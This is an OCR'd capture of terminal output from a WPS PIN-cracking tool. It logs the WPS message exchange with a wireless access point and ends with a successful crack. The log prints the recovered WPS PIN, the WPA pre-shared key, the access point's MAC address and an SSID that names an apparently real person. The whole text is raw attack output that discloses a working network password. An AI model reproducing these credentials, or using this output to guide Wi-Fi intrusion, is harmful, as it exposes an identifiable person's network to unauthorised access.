     WPS:  * Version
    WPS:  * Message Type (10)
    WPS:  * Enrollee Nonce
    WPS:  * R-SNonce2
    WPS:  * Key Wrap Authenticator
    WPS:  * Encrypted Settings
    WPS:  * Authenticator
    [+] Sending M6 message
    send_packet called from send_msg() send.c:116
    WPS: Processing received message (len=168 op_code=4)
    WPS: Received WSC_MSG
    WPS: Unsupported attribute type 0x1049 len=6
    WPS: Parsed WSC_MSG
    WPS: Received M7
    WPS: Processing decrypted Encrypted Settings attribute
    WPS: E-SNonce2 - hexdump(len=16): ab d5 0f 15 8b 7b 7d 41 b5 2d 10 4f bf 18 78 89
    WPS: Enrollee proved knowledge of the second half of the device password
    WPS: Invalidating used wildcard PIN
    WPS: Invalidated PIN for UUID - hexdump(len=16): 63 04 12 53 10 19 20 06 12 28 b4 3d 08 2d 91 41
    WPS: Processing AP Settings
    WPS: SSID - hexdump_ascii(len=18):
        52 61 68 75 6c 20 41 67 61 72 77 61 6c 5f 32 2e   Rahul Agarwal_2.
        34 47                                             4G              
    WPS: Authentication Type: 0x20
    WPS: Encryption Type: 0x8
    WPS: Network Key Index: 1
    WPS: Network Key - hexdump(len=10): 39 35 39 39 36 31 33 33 39 37
    WPS: MAC Address b4:3d:08:2d:91:41
    WPS: Update local configuration based on the AP configuration
    WPS: Processing AP Settings
    WPS: SSID - hexdump_ascii(len=18):
        52 61 68 75 6c 20 41 67 61 72 77 61 6c 5f 32 2e   Rahul Agarwal_2.
        34 47                                             4G              
    WPS: Authentication Type: 0x20
    WPS: Encryption Type: 0x8
    WPS: Network Key Index: 1
    WPS: Network Key - hexdump(len=10): 39 35 39 39 36 31 33 33 39 37
    WPS: MAC Address b4:3d:08:2d:91:41
    WPS: Update local configuration based on the AP configuration
    WPS: WPS_CONTINUE, Freeing Last Message
    WPS: WPS_CONTINUE, Saving Last Message
    WPS: returning
    [+] Received M7 message
    WPS: Building Message WSC_NACK
    WPS:  * Version
    WPS:  * Message Type (14)
    WPS:  * Enrollee Nonce
    WPS:  * Registrar Nonce
    WPS:  * Configuration Error (0)
    [+] Sending WSC NACK
    send_packet called from send_msg() send.c:116
    WPS: Building Message WSC_NACK
    WPS:  * Version
    WPS:  * Message Type (14)
    WPS:  * Enrollee Nonce
    WPS:  * Registrar Nonce
    WPS:  * Configuration Error (0)
    [+] Sending WSC NACK
    send_packet called from send_msg() send.c:116
    [+] Pin cracked in 91 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: '9599613397'
    [+] AP SSID: 'Rahul Agarwal_2.4G'
    ```
